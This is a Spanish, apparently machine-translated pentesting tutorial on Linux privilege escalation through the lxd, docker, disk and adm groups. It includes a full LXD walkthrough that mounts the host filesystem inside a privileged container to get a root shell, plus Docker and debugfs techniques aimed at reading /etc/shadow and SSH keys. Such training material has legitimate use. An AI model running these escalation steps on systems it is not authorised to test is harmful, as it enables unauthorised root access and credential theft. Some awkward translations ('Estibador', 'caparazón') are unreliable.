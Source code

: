 # Grupos privilegiados

---

## LXC / LXD

LXD es similar a Docker y es el gerente de contenedores de Ubuntu. Tras la instalación, todos los usuarios se agregan al grupo LXD. La membresía de este grupo se puede utilizar para aumentar los privilegios creando un contenedor LXD, haciéndolo privilegiado y luego acceder al sistema de archivos de host en`/mnt/root`. Confirmemos la membresía del grupo y usemos estos derechos para aumentar a Root.

  Grupos privilegiados

```shell-session
devops@NIX02:~$ id

uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```

Descomprima la imagen alpina.

  Grupos privilegiados

```shell-session
devops@NIX02:~$ unzip alpine.zip 

Archive:  alpine.zip
extracting: 64-bit Alpine/alpine.tar.gz  
inflating: 64-bit Alpine/alpine.tar.gz.root  
cd 64-bit\ Alpine/
```

Inicie el proceso de inicialización LXD. Elija los valores predeterminados para cada mensaje. Consultar esto[correo](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04)Para más información sobre cada paso.

  Grupos privilegiados

```shell-session
devops@NIX02:~$ lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

/usr/sbin/dpkg-reconfigure must be run as root
error: Failed to configure the bridge
```

Importar la imagen local.

  Grupos privilegiados

```shell-session
devops@NIX02:~$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: be1ed370b16f6f3d63946d47eb57f8e04c77248c23f47a41831b5afff48f8d1b
```

Iniciar un contenedor privilegiado con el`security.privileged`empezar a`true`Para ejecutar el contenedor sin un mapeo UID, haciendo que el usuario root en el contenedor sea el mismo que el usuario root en el host.

  Grupos privilegiados

```shell-session
devops@NIX02:~$ lxc init alpine r00t -c security.privileged=true

Creating r00t
```

Monte el sistema de archivos de host.

  Grupos privilegiados

```shell-session
devops@NIX02:~$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

Device mydev added to r00t
```

Finalmente, genere un caparazón dentro de la instancia del contenedor. Ahora podemos explorar el sistema de archivos host montado como root. Por ejemplo, para acceder al contenido del directorio raíz en el tipo de host`cd /mnt/root/root`. Desde aquí podemos leer archivos confidenciales como`/etc/shadow`y obtener hash de contraseña o obtener acceso a las teclas SSH para conectarse al sistema de host como root, y más.

  Grupos privilegiados

```shell-session
devops@NIX02:~$ lxc start r00t
devops@NIX02:~/64-bit Alpine$ lxc exec r00t /bin/sh

~ # id
uid=0(root) gid=0(root)
~ # 
```

---

## Estibador

Colocar a un usuario en el grupo Docker es esencialmente equivalente al acceso a nivel raíz al sistema de archivos sin requerir una contraseña. Los miembros del grupo Docker pueden generar nuevos contenedores Docker. Un ejemplo sería ejecutar el comando`docker run -v /root:/mnt -it ubuntu`. Este comando crea una nueva instancia de Docker con el directorio /root en el sistema de archivos host montado como un volumen. Una vez que se inicia el contenedor, podemos explorar el directorio montado y recuperar o agregar teclas SSH para el usuario de la raíz. Esto podría hacerse para otros directorios como`/etc`que podría usarse para recuperar el contenido del`/etc/shadow`Presente para el agrietamiento de contraseña fuera de línea o agregando un usuario privilegiado.

---

## Disco

Los usuarios dentro del grupo de disco tienen acceso completo a cualquier dispositivo contenido en`/dev`, como`/dev/sda1`, que generalmente es el dispositivo principal utilizado por el sistema operativo. Un atacante con estos privilegios puede usar`debugfs`Para acceder a todo el sistema de archivos con privilegios de nivel raíz. Al igual que con el ejemplo del grupo Docker, esto podría aprovecharse para recuperar claves SSH, credenciales o para agregar un usuario.

---

## Admir

Los miembros del grupo ADM pueden leer todos los registros almacenados en`/var/log`. Esto no otorga directamente el acceso raíz, pero podría aprovecharse para recopilar datos confidenciales almacenados en archivos de registro o enumerar las acciones del usuario y ejecutar trabajos cron.

  Grupos privilegiados

```shell-session
secaudit@NIX02:~$ id

uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)
```